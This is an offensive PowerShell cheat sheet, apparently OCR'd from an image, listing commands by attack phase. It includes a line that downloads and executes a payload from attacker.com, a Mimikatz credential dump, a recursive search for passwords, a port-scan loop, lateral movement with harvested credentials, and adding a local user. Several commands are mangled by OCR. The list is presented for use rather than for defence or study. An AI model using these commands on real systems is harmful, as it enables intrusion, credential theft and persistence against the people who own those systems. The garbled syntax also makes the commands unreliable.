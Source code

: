 # Windows Powershell

### System Reconnaissance

 - Get-WmiObject -Class Win32_OperatingSystem (Enumerate System Information)

 - Get-Service | Where-Object {$_.Status -eq "Running"} (Check for running services)

 - Get-NetIPConfiguration (Get current network configuration)

### User and Group Enumeration

 - Get-LocalUser (List local users)

 - quser (List user sessions)

 - Get-LocalGroup (List local groups)

 - Get-LocalGroupMember -Group "Administrators" (List group members)

### Network Scanning

 - Test-Connection IP -Count 1 -Quiet (Discover live systems)

 - 1..1024 | % {echo ((new-objectNet.Sockets.TcpClient).Connect("192.168.1.1", $_)) "Port$_ is open"} (Scan for open ports)

### Exploitation

 - IEX (New-ObjectNet.WebClient).DownloadString('http://attacker.com/payload.ps1') (Download and execute a payload)

### File and Directory Manipulation

 - Get-ChildItem -Recurse | Select-String -Pattern"password" (Search for files with sensitive data)

 - (Get-Item "secret.txt").Delete() (Securely delete a file)

### Credential Harvesting

 - Import-Module Mimikatz.ps1

 - Invoke-Mimikatz -DumpCreds (Dump credentials from memory)

### Privilege Escalation

 - ([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]"Administrator") (Check for admin privileges)

### Lateral Movement

 - Invoke-Command -ComputerName TARGET_IP ScriptBlock {COMMAND} -credential (Get-Credential)

### Post Exploitation

 - net user /add USER
